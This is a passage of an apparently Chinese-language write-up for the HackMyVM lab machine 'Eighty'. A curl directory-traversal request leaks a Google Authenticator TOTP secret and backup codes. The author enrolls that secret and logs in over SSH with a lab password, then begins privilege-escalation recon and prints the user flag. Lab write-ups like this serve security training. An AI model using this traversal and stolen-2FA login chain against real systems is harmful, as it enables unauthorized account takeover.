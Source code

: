 发现可以尝试进行目录穿越：

```bash
┌──(kali㉿kali)-[~/temp/Eighty]
└─$ curl http://susan.eighty.hmv/web../secret/.google-auth.txt 
2GN7KARBONVR55R7SP3UZPN3ZM
" RATE_LIMIT 3 30
" WINDOW_SIZE 17
" DISALLOW_REUSE
" TOTP_AUTH
71293338
48409754
27074208
60216448
17908010
```

发现是`TOTP_AUTH`：

> TOTP（Time-based One-Time Password，基于时间的一次性密码）是一种广泛应用于双因素身份验证（2FA）的动态密码技术，通过结合共享密钥和时间戳生成短期有效的验证码。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506140910911.png" alt="image-20250614084143934" style="zoom:50%;" />

但是这个用不了，换一个：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506140910912.png" alt="image-20250614084234164" style="zoom:50%;" />

右上角打开插件，身份验证器 > 添加账号 > 手动输入 > `susan:2GN7KARBONVR55R7SP3UZPN3ZM`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506140910913.png" alt="image-20250614084628254" style="zoom:33%;" />

尝试进行 ssh 登录，过期就换一个！

密码要填`8ycrois-tu0`（不知道咋出来的可以`ctrl+f`看一下第一次出现在哪）,认证码就填刚刚插件给的：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506140910914.png" alt="image-20250614084837513" style="zoom:50%;" />

## 提权

### 信息搜集

```bash
susan@eighty:~$ ls -la
total 52
drwxr-xr-x 6 susan susan 4096 Jun 13 20:48 .
drwxr-xr-x 4 root  root  4096 Apr  7  2021 ..
-rw-r--r-- 1 susan susan  220 Apr  7  2021 .bash_logout
-rw-r--r-- 1 susan susan 3526 Apr  7  2021 .bashrc
-rwx--x--x 1 susan susan 1920 Apr  7  2021 flag.sh
drwx------ 3 susan susan 4096 Apr  7  2021 .gnupg
-r-------- 1 susan susan  156 Jun 13 20:48 .google_authenticator
drwxr-xr-x 3 susan susan 4096 Apr  7  2021 .local
-rw-r--r-- 1 susan susan  807 Apr  7  2021 .profile
drwxr-xr-x 2 susan susan 4096 Apr  7  2021 secret
-rw------- 1 susan susan   12 Apr  7  2021 user.txt
drwxr-xr-x 2 susan susan 4096 Apr  7  2021 web
-rw------- 1 susan susan   52 Apr  7  2021 .Xauthority
susan@eighty:~$ cat user.txt 
hmv8use0red
susan@eighty:~$ ./flag.sh 
\033[0;35m
                                   .     **                                     
                                *           *.                                  
                                              ,*                                
                                                 *,                             
                         ,                         ,*                           
```